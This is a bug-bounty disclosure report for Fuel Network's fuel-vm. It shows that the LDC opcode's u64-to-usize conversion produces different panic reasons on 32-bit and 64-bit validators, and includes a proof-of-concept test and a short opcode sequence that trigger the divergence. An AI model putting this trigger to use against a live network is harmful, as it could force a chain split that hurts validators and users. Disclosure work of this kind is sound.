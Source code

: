 
# Consensus between 32-bit and 64-bit system can fail for LDC opcode

Submitted on Thu Jul 04 2024 07:53:29 GMT-0400 (Atlantic Standard Time) by @ret2happy for [Attackathon | Fuel Network](https://immunefi.com/bounty/fuel-network-attackathon/)

Report ID: #32825

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/FuelLabs/fuel-vm/tree/0e46d324da460f2db8bcef51920fb9246ac2143b

Impacts:
- Unintended permanent chain split requiring hard fork (network partition requiring hard fork)

## Description
Consensus between 32-bit and 64-bit system can fail

## Brief/Intro

Consensus between 32bit and 64bit systems might fail due to a failure type conversion in the LDC opcode implementation [1]. Executing malicious LDC opcode leads to the different result (PanicReason) on validators with different architecture.

## Vulnerability Details

In the interpreter/blockchain.rs#L597-L607 [1], the loaded contract length is the 64-bit register value. However, it uses `padded_len_usize` to convert `u64` to `usize`. Note that `usize` can either be 32 bit or 64 bit depending on the architecture. 

- If the validators running on the `32-bit` system (e.g., wasm), the `usize` here is `u32`, and this would cause `PanicReason::MemoryOverflow` as the following code shows.
- If the validators running on the `64-bit` system, the `usize` here is `u64`, and `try_into` conversion will success.

Consider we already set the $rC to u64::MAX (will demonstrate it more detail in PoC), we will get `PanicReason::MemoryOverflow` on 32-bit system, and get `PanicReason::ContractMaxSize` on 64-bit system.
```
        let length = bytes::padded_len_usize(
            length_unpadded
                .try_into() // On 32-bit system, this try_into will fail since we fail to convert a large u64 value (e.g., u64::MAX) to u32
                            // while on 64-bit system, this conversion never failed 
                .map_err(|_| PanicReason::MemoryOverflow)?,
        )        
        .map(|len| len as Word)
        .unwrap_or(Word::MAX);

        if length > self.contract_max_size {
            return Err(PanicReason::ContractMaxSize.into())
        }
``` 

## Impact Details

Since executing the same program result in different panic reason on different validators, the consensus is broken. More specifically, because the receipt contains the panic reason and ultimately influences the block header hash, the block header hash will be incorrect. This would read to the network fork.


## References

[1] https://github.com/FuelLabs/fuel-vm/blob/ae91bbdc804b870a84efe0bc6d18f43a79f351e7/fuel-vm/src/interpreter/blockchain.rs#L597-L607
        
## Proof of concept
## Proof of Concept

The following PoC get `PanicReason::ContractMaxSize` on a 64bit system but get `PanicReason::MemoryOverflow` on a 32bit system.

```
// please add this to the `fuel-vm/src/interpreter/blockchain/code_tests.rs` for testing
#[test]
fn test_load_contract_with_truncation() -> IoResult<(), Infallible> {
    let mut storage = MemoryStorage::default();
    let mut memory: MemoryInstance = vec![1u8; MEM_SIZE].try_into().unwrap();
    let mut pc = 4;
    let mut cgas = 1000;
    let mut ggas = 1000;
    let mut ssp = 1000;
    let mut sp = 1000;
    let fp = 32;
    let is = 0;
    let hp = VM_MAX_RAM;

    let contract_id = ContractId::from([4u8; 32]);

    let contract_id_mem_address: Word = 32;
    let offset = 20;
    let num_bytes = u64::MAX; //40;
    const CONTRACT_SIZE: u64 = 400;

    memory[contract_id_mem_address as usize
        ..contract_id_mem_address as usize + ContractId::LEN]
        .copy_from_slice(contract_id.as_ref());
    storage
        .storage_contract_insert(
            &contract_id,
            &Contract::from(vec![5u8; CONTRACT_SIZE as usize]),
        )
        .unwrap();

    let mut panic_context = PanicContext::None;
    let input_contracts = [contract_id];
    let input_contracts = input_contracts.into_iter().collect();
    let input = LoadContractCodeCtx {
        contract_max_size: 100,
        storage: &storage,
        memory: &mut memory,
        context: &Context::Call {
            block_height: Default::default(),
        },
        profiler: &mut Profiler::default(),
        input_contracts: InputContracts::new(&input_contracts, &mut panic_context),
        gas_cost: DependentCost::from_units_per_gas(13, 1),
        cgas: RegMut::new(&mut cgas),
        ggas: RegMut::new(&mut ggas),
        ssp: RegMut::new(&mut ssp),
        sp: RegMut::new(&mut sp),
        hp: Reg::new(&hp),
        fp: Reg::new(&fp),
        pc: RegMut::new(&mut pc),
        is: Reg::new(&is),
    };
    input.load_contract_code(contract_id_mem_address, offset, num_bytes)?;
    Ok(())
}
```

To test conveniently on the 32-bit system, I add the `padded_len_usize_32bit` function to simulate the `u32` type for 32-bit system, in the `fuel-types/src/bytes.rs`:

```
#[allow(clippy::arithmetic_side_effects)] // Safety: (a % b) < b
pub const fn padded_len_usize_32bit(len: u32) -> Option<u32> {
    let modulo = len % WORD_SIZE as u32;
    if modulo == 0 {
        Some(len)
    } else {
        let padding = WORD_SIZE as u32 - modulo;
        len.checked_add(padding)
    }
}
```
And I also change the `fuel-vm/src/interpreter/blockchain.rs#L597` from `padded_len_usize` to `padded_len_usize_32bit`:
```
let length = bytes::padded_len_usize_32bit(
    length_unpadded
        .try_into()
        .map_err(|_| PanicReason::MemoryOverflow)?,
)
```

Runnning the above PoC, we get different result on 32/64-bit system.

Moreover, the simplified fuel PoC program could be:

```
op::movi(reg_a, count), // r[a] := ContractId::LEN
op::aloc(reg_a),        // Reserve space for contract id in the heap
op::move_(reg_a, RegId::HP),         // r[a] := $hp // id
op::movi(reg_b, 0),             // r[b] = 0 // offset
op::subi(reg_c, reg_c, 1),         // r[c] := u64::MAX // len
op::ldc(reg_a, reg_b, reg_c),        // Load first two words from the contract
op::lw(reg_c, RegId::FP, 0x240 / 8), // r[c] := code_size
```